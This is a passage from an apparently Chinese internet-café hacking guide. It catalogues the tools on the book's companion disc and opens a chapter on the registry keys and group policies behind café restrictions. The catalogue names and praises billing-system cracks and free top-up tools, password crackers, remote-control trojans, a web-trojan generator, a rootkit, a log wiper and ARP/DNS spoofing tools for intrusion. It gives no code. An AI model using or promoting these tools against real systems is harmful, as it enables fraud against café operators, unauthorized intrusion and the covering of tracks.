  sysinternals 公司出品的功能强大的查看和管理系统自启动项的小工具，它可以帮你列出系统中所有的自启动项及其详细信息，双击其中的一个可以直接到达相应位置（启动目录或者注册表路径），当然用它还能删除一个自启动项，是手工查杀木马和病毒的不错的辅助工具。此外，它还有列出系统服务等其它实用功能。

- **Reg2Inf**  
  如名字描述的那样，可以将注册表脚本转换为一个 Inf 文件。

- **Windows 按钮突破专家**  
  使用这个工具可以使网吧中变灰的按钮变为可用，这样我们就可以进行一些网吧中限制了的操作了，破解网吧的利器之一。

- **Ⅲ 还原卡以及还原类软件破解工具集锦.rar**  
  笔者收集的破解还原卡以及还原类软件的工具集合，希望对大家有用。有些程序未经测试，使用可能存在一定的危险性，请注意！

- **Shell.rar**  
  几个加壳的工具，工具来自看雪学院（www.pediy.com），它们是：Xprot、VProtector 和 ACProtect。工具未经测试，请慎重使用。

### 第三章 命令行下的精彩

- **Batch.rar**：无敌批处理中涉及到的所有批处理代码。
- **Documents.rar**：作者收集的高手编写的批处理脚本和批处理教程，绝大部分来自中国 DOS 联盟论坛。

### 第四章 Pubwin 安全日志

- **Pubwin4.chm**：Pubwin4 的官方帮助
- **PubwinEP.chm**：PubwinEP 的官方帮助
- **CrackEP.vbs**：文中涉及到的杀 PubwinClient.exe 进程的 VBS 脚本

- **FlashBIOS**  
  由 SystEm32 制作，是目前唯一的可以在 2000/xp/2003 下清除 BIOS 密码的东西，当然也支持 98。用法：Flashbios [kind]，[kind] 可以为 98/2000/xp/2003，比如：Flashbios 2000，这是在 win2000 下清除 BIOS 密码。

- **精锐星号密码读取工具**  
  精锐网吧联盟开发的星号密码读取工具，并且支持网页上的星号密码显示。

- **W32DASM**  
  反汇编的屠龙刀，可见其地位。W32DASM 的最大优点是反汇编速度快，新手使用比较容易上手。这里收录了 W32DASM 的好几个版本，其中当然也有汉化的。

- **多功能数据库浏览器**  
  一个小巧的并且支持密码破解的 Microsoft ACCESS 数据库浏览器，在网吧中可以替代 ACCESS 打开 .mdb 文件，查看其中的记录，使用非常方便。

- **精锐网吧辅助工具 v5.7**  
  最新更新的版本，本次更新对进程管理、窗口管理、发送邮件、资源管理、灰色按钮激活等功能做了部分修改或优化！增加了隐藏/显示程序的快捷键 Ctrl+ALT+X，也可以使用 F2 来隐藏/显示程序！进程管理里面增加“终止并禁止运行”，如果使用“仅添加到禁运行列表”，那么已经运行的程序并不会被终止，但终止以后将无法再运行了。某文件名被添加到禁止运行列表后，即使你关闭网吧辅助工具或重启计算机，该文件都无法再运行（装有还原程序计算机除外），想继续使用该文件名的程序请到“禁止运行列表”取消禁止就可以了！

- **CrackPubwin.rar**  
  Pubwin4 和 PubwinEP 的各种破解以及充值工具，包括：  
  - PUB4.3 伪装图标  
  - pubwin EP 充值工具  
  - PUBWIN4 破解精灵 V2005  
  - PubwinEP 最新免费上网工具  
  - PUBWINEP 破解工具  
  - 精锐网吧充值一条龙  
  - 网吧充值赚钱一条龙 pubwin-EP  
  - 网吧旋风者 For PubwinEP 1.0

### 第五章 网吧入侵全程讲解

- **FindPass 和 Pulist**：Windows2000 下经典本地系统密码破解工具组合，可较容易得到 Win2K 系统密码，附 FindPass2003 及源码。
- **LC5**：Windows 下强大的本地账户密码恢复工具，支持多种破解方式，速度快。
- **BluePortScan**：TCP SYN 半开放扫描端口工具，支持指定 IP 段与 TCP/UDP 扫描。
- **X-Scan-v3.3-cn**：glacier 开发的综合漏洞扫描工具，支持插件与 Nessus 脚本，易上手。
- **snmputil.exe**：通过 SNMP 协议远程获取 SNMP 服务器信息的命令行工具。
- **HackerDicBuilder**：基于个人信息规则生成字典的工具，常用于社工场景。
- **黑客字典**：小榕开发的字典生成工具。
- **易优超级字典生成器**：高速字典生成器，支持较细的生日字典设置。
- **NTScan**：图形界面的远程密码猜解工具，上手容易但速度较慢。
- **SmbCrack**：通过 SMB 远程猜解密码，通常可达 500–1000 密码/秒，主要走 139 端口。
- **SmbCrack2.0**：Xtiger 开发，支持密码文件/方案文件，支持 139 与 445，支持断点续猜。
- **怪狗 Win2K 登录器**：Win2K 终端服务客户端程序，单可执行文件。
- **Recton v2.5**：（续）利用 WMI 远程操作对方主机的工具，2.5 版本功能较强：远程开启 Telnet、终端服务、删日志、查/结束进程等。
- **Remoxec**：较早的远程执行命令工具，使用 RPC/WMI，下发命令执行。
- **Brutus-AET2**：超级远程密码破解工具，支持 IMAP、HTTP、POP3、FTP、SMB 等认证类型及远程登录类型。
- **THC-Hydra**：Linux 移植命令行远程密码猜解工具，支持 Telnet、FTP、HTTP、SMB 等，速度快。
- **TsCrack**：终端服务命令行密码猜解工具，选项多，但线程数较低（最多两个连接并行）。
- **ActivePerl V5.6**：.pl 代码解释器，可借助 Perl.cxc 编译 .pl 文件。
- **Perl2exe**：将 .pl 转为 .exe 的小程序，需要 ActivePerl 支持。
- **Cygwin**：Windows 下模拟 Linux 环境，含 GCC，可用于编译 C 代码。
- **Dev-C++**：基于 GCC 的图形化 C 编译器，安装与使用简单。
- **NC**：被称为“黑客界瑞士军刀”。
- **MS05039**：Windows PnP Remote Overflow Exploit
- **MS05002**：Microsoft Internet Explorer .ANI Files Handling Exploit
- **MS04044**：本地权限提升漏洞利用 Exploit
- **Metasploit 2.7**：缓冲区溢出利用工具，内置大量 Exploit/ShellCode，支持命令行和 Web 控制界面（新版至 3.0）。
- **Winarp_sk**：ARP 欺骗工具，可定制请求/回复包类型，自定义源/目的 IP/MAC，使用灵活。

### WinPcap 驱动集合

收集了多个版本的 WinPcap 驱动，以适应不同类型的计算机环境。一般 ARP 欺骗工具都是需要 WinPcap 驱动支持的，没有它的支持 ARP 欺骗工具是无法正常工作的。

## Xhijack

Windows 环境下的会话劫持工具，这个工具也可以用在交换环境下。在局域网中使用这个工具有时候可以很轻易地获得远程主机的管理员权限。

### DNSHack

国产的 DNS 欺骗工具。它通过劫持 DNS 请求并伪造 DNS 数据包中的随机 ID，然后回复给 DNS 客户端一个设置有陷阱网页的 IP 地址访问，以达到攻击者的目的。这个工具可以定制目标主机访问的 IP 地址。

### NetBox

NetBox 是一个使用脚本语言进行应用软件开发与发布的开发环境和运行平台，使用 NetBox，可以完全使用脚本语言（比如 VBScript、Javascript）创建出稳定高效的应用软件，并且可以平滑移植到从 Windows 98 到 Windows .NET Server 的全部操作系统上。NetBox 还是世界上除了 IIS 以外第二个支持 ASP 脚本的程序，并且执行速度要快于 IIS。

### 灰鸽子迷你版

灰鸽子远程控制迷你版，去除了很多功能，只剩下了几个比较实用的功能，容易上手，携带方便。

### 上兴多项穿墙下载者

上兴开发的可以指定多个下载地址的下载者。

## MS06014 网页木马生成器

一个利用 MS06014 漏洞制作的网页木马生成器。

### ArpSniffer

小榕开发的可以在交换环境下使用的网络嗅探器，注意它是一个命令行工具。之所以可以在交换环境下使用，是因为在嗅探前 ArpSniffer 进行了 ARP 欺骗，然后进行数据转发，这样目标主机的数据包就会流过攻击者的主机了，获取敏感信息还是轻而易举。

### AFKRootKit2005

一款 RootKit 工具，可以隐藏硬盘文件、进程、端口、模块、服务、注册表项等。这个工具修改了部分 Windows API，使用时要小心，很可能造成系统崩溃。一旦造成系统崩溃，请在系统启动时按 F8 并选择“最后一次正确配置”启动计算机。

### IP Network Browser

SolarWinds 公司出品的功能强大的网络管理程序。利用它的 SNMP 远程管理功能，我们只需一个 SNMP 口令就可以查看远程主机的各种信息：用户列表、服务、打开端口等。它是图形界面工具，使用简单，很容易上手。

### Metasploit 3.0

Metasploit 的最新版本，使用 Ruby 语言编写，其它很多方面都有所改进，推荐！

### DNSSPOOF

Dsniff 安全套装中的一员，DNS 欺骗工具。和 DNSHack 不同的是，它不可以指定目标主机要访问的 IP 地址，默认为本地主机的 IP 地址。

### CA

小榕的账号克隆工具，支持远程账户克隆。另附检查克隆账户的工具 CCA。


### SocksCap

一个可以使任意可执行程序上 Socks 代理的第三方程序，黑客常用它来加载自己要用到的网络工具以达到隐藏自己 IP 的目的。光盘中收录了 SocksCAP 对应版本的汉化包。

### Nmap

扫描之王。支持多种方式的端口扫描，同时具有获得远程主机操作系统、躲避防火墙以及欺骗扫描等功能，其扫描速度也是一流的，黑客必备工具，推荐使用。

### NewKillLog

一个可以一次性删除系统中所有日志的工具，包括 IIS 留下的记录。它是一个命令行工具，直接执行就可以了，小巧且使用方便。

### WinNmap

Nmap 是扫描软件中的巨无霸。该软件仿造 NMAPFE（GTK）界面，为 nmap 3.90 以后版本量身定做。支持彩色模式，加入更多配置项，让你能够轻易使用 Nmap 的强大功能。

### Process Explorer

让你了解看不到的、在后台执行的处理程序，能显示目前已经载入哪些模块、被哪些程序使用、调用的 DLL 进程以及打开的句柄。最大特色是能终止任何进程，甚至系统关键进程。英文版，免费使用，同时支持 Win9x/ME 及 64bit 操作系统。

### ARP 防火墙个人版

ARP 防火墙通过在系统内核层拦截虚假 ARP 欺骗包以及主动通告网关本机正确的 MAC 地址，可以保障数据流向正确，不经过第三者，从而保证通讯数据安全、网络畅通，解决 ARP 欺骗带来的各种问题。

### 技术教程

- JavaScript 教程
- Microsoft Windows 脚本技术
- Think In Java
- 汇编语言全接触
- 凯文·米特尼克《欺骗的艺术》
- 网雕精华天书
- Linux 教程 Shell 精华文章
- Linux 命令大全
- 51CTO 超级技术教程

### 动画

- 突破网吧下载限制的方法
- 修改程序随意进入 Pubwin4 系统设置
- Pubwin EP 的小 BUG
- 利用 SNMP 刺探远程主机信息
- SMB 远程密码猜解
- Metasploit 远程缓冲区溢出攻击演示
- ARP 欺骗简单演示
- DNS 欺骗演示
- 会话劫持攻击演示
- 基于交换网络的嗅探
- 手工克隆账户

### 第一章 透视网吧限制

## Intro

本章你可以学到：

- 网吧常见限制以及限制以后的症状
- 几乎所有网吧限制对应的注册表键值位置
- 组策略的背景及相关知识
- 组策略安全相关策略功能描述汇总
- 组策略安全相关策略与注册表键值对应汇总
- 注册表的背景知识
- 注册表结构与数据类型的知识
- 各注册表项的功能描述
- 注册表编辑器的使用




### 1.1 受限网吧限制

好像是我初三时候吧，我们这里网吧的电脑桌面上有了那个红框框，需要输入网管给的密码才可以进去玩（当时网管直接用管理员密码让我们上网）。那时候只知道游戏，不知道那红框框是什么东西，也没有意识要去探个究竟。我想它八九不离十是 Pubwin 了，但是不知道版本。反正只要知道当时鼠标右键不可以用，没有“开始”菜单（那时候还是 Win98），有些不方便，却根本没有想到要去怎么破解。其实我想那时候的网管也没有想那么多安全问题，公安局让安装就安装上咯！毕竟那时候网络还没有发展得这样发达，安全问题也远没有现在严重。但是网吧管理软件（比如 Pubwin、万象、美萍等）厂商都已经考虑到了，在它的默认设置中已经做了一些限制，这也就成了网吧限制的根源。

随着时间的推移，网吧事业越来越火爆，而越来越多的人也开始有意识地接触黑客技术，在网吧中盗号或者搞其他一些破坏、恶作剧之类的事情。这时候网管已经警觉起来，开始有意识地自定义网吧管理软件的限制，也有些了解 NT 系统的管理员通过配置 Windows 中的一些系统程序进行更多的限制，这也就是第二部分限制的来源了。

网吧的限制就来自这两方面，而万变不离其宗。管理软件和网管对系统做了什么手脚设置这么多的障碍呢？仔细思考，不管是界面限制还是浏览器限制，实质上还是对某个软件的限制，比如对“资源管理器”和 IE。在 Windows 的前几个版本中，系统的配置信息是放在以 .ini 为后缀的文件中的，用户可以通过修改 .ini 文件改变软件的配置。而在 NT 系统中，考虑到 ini 文件过于分散，于是将大部分的软件（当然还有硬件）配置信息保存于一个叫做注册表的东西中。现在你可以确定了，限制来自注册表！是的，就是它。注册表是一个庞大的数据库，我们要像修改 ini 文件那样修改它是不理想的，因此微软提供了一个编辑工具，即注册表编辑器。网吧管理软件通过编程实现对注册表的修改，而网管则可以使用系统程序或手工修改注册表进行限制。

一直提到一个系统程序，实际上它通常只是一个叫做组策略编辑器的程序，用户可以通过这个程序更加直观和容易地做各种各样的限制，而它的功能更加强大。它是注册表编辑器的人性化接口，当然同样可以编辑注册表了！

现在明确目标了。本章就将在列出每个限制后的“症状”后，从限制本质，即注册表，来讲解限制的对应注册表键值以及组策略选项。在第二节中将给出组策略编辑器的基本概念和使用方法；而在第三节中，将对注册表（编辑器）做一个简单的介绍，让大家对这个神秘而又很实用强大的程序有一个初步的认识。相信你在学习完本章后，会爱上注册表编辑器和组策略编辑器这两个可爱的东西的。其实可以这样说，本章基本就是一个具有网吧环境特色的组策略以及注册表的初级教程，呵呵！因此难免会有枯燥的感觉，我的目的只是要大家对网吧的限制有清醒的认识，当然不是所有限制你都会遇到，因此对待本章的第一、二节内容你可以像工具一样使用它们，就是说你不必全都看完。它是为了方便你查阅自己遇到的限制、限制本质以及解决办法，当然你可以从中学到很多关于组策略的知识；而通过第三节对注册表的专门讲解，会让你对它有个框架式印象，可以算是入门了，这对以后读者自己学习注册表方面更高级的知识将是十分有益的。当然，决定权是你的，笔者推荐至少看一遍吧，有点老学究的感觉了……那接下来就让我们进入本章的学习吧！

**测试环境：Windows XP Professional SP2**

## 1、常见本地限制遍历

很多朋友在网吧经常遇到这样那样的限制，这些限制使我们做许多事情都不方便，或者无法做某些操作。一般你在进行一项做了限制的操作时，系统都会给出你一个提示，告诉你此操作已被限制。大家最常见的就是“本次操作由于这台计算机的限制而被取消。请与您的系统管理员联系”吧。根据 Pubwin 帮助文件中的“清单、保护与限制”和自己的总结，笔者列出一张常见本地限制表。Pubwin 中将它的限制分为 3 类：界面限制、浏览器限制和其他限制，这里就依照这个标准给出每个限制的表现形式。由于很多限制的表现形式相同，所以在同一类限制中用同一张图片表示。还有，有些限制只对 Win2000 以上的系统有效，而有的则只对 Win9x 有效，大部分为前者。



### 1.1、界面限制

- 1.1.1、隐藏桌面

实际上是网管软件自己虚拟一个界面代替了桌面，这里以 Pubwin4 为例，如图 1-1-1 就是它虚拟出的一个桌面。实际桌面仍然存在，这点从进程 explorer.exe 可以看出（它在任务管理器中是桌面的进程）。对于不同的 Pubwin 版本，这个限制的效果不同。在某些版本下只要点击快速启动栏里的“显示桌面”就可以进入桌面了，而有的点击此按钮后却无响应。





- 1.1.2、去除任务栏上下文菜单

上下文菜单就是我们点击鼠标右键出现的菜单，如图 1-1-2。上下文菜单中一般包含有属性和其他重要的系统程序选项，这也就是做限制的原因了。限制后在任务栏上点击右键无反应。



- 1.1.3、禁止访问任务栏属性

任务栏属性包括任务栏选项和“开始”菜单，如图 1-1-3。任务栏做限制，笔者倒认为没有多少必要，想必是因为要限制“开始”菜单才限制的此项吧。的确，“开始”菜单对于运行程序十分重要，所有的操作都可以通过开始菜单起步。一个“运行”或者“搜索”就可能导致网管软件所做的努力前功尽弃。限制后点击属性出现如图 1-1-4 的对话框。

- 1.1.4、“开始”菜单中删除“关机”菜单项

笔者认为无关痛痒的限制，现在的网吧大多安装有还原卡或还原精灵，重启了又能如何？限制后开始菜单中无“关机”菜单项，如图 1-1-5。

- 1.1.5、开始菜单中删除“运行”菜单项

重要！在“运行”中键入相应的程序名称就可以直接运行该程序，十分方便。这些可以在“运行”中直接打开的程序大部分是系统程序，有些十分重要，对网吧黑客和网管都是如此。使用“运行”可以从很多方面打开破解的缺口，做限制也是可以想到的。可以在“运行”中直接打开的重要程序有注册表编辑器 regedit、组策略编辑器 gpedit.msc、控制台程序 mmc、命令提示符 cmd、任务管理器 taskmgr、系统配置实用程序 msconfig（Win2000 无）、记事本 notepad。从“运行”还可以打开某个磁盘驱动器或者目录，例如写 c: 就可以进入 C 盘，写 c:\windows\system32 就可以直接进入 system32 目录了。当然，如果对特定程序或目录做了访问限制是无法访问的，但是单纯的隐藏对于“运行”是无效的。这就是“运行”的杀手锏，可以直接在“运行”中打开的程序是事先在注册表中定义好的，你也可以自行添加。该项限制后开始菜单中无“运行”，如图 1-1-6。

并且使用 **Win+R** 快捷键同样会出现如图 1-1-4 的禁用提示。需要指出的是，Pubwin 的此限制同组策略中“从[开始]菜单中删除‘运行’菜单”的限制效果相同，而自定义[开始]菜单中的“高级[开始]菜单选项”中的“显示运行”，如图 1-1-7，只做到了在[开始]菜单中隐藏“运行”，使用 Win+R 还是可以打开“运行”的。



